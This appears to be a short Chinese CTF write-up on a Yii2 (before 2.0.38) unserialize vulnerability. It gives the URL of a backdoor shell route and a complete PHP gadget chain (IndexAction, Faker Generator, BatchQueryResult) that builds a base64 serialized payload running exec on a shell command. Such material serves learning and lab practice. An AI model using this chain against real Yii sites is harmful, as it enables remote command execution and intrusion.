 ![](https://img-blog.csdnimg.cn/20210402164835717.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 267(Yii反序列化漏洞)

>Yii是一套基于组件、用于开发大型Web应用的高性能PHP框架。Yii2 2.0.38 之前的版本存在反序列化漏洞，程序在调用unserialize 时，攻击者可通过构造特定的恶意请求执行任意命令。

弱口令登录，源码中发现地址访问：index.php?r=site%2Fabout&view-source

![](https://img-blog.csdnimg.cn/20210402164927903.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
访问/index.php?r=backdoor/shell&code=poc即可执行命令

poc通过下面脚本输出得到，脚本中：checkAccess和id是我们可控的

```
/index.php?r=backdoor/shell&code=
```

poc:
```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'exec';	//PHP函数
            $this->id = 'ls />1.txt';    //PHP函数的参数  
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['close'] = [new IndexAction(), 'run'];
        }
    }
}
namespace yii\db{

    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator();
        }
    }
}
namespace{

    use yii\db\BatchQueryResult;

    echo base64_encode(serialize(new BatchQueryResult()));
```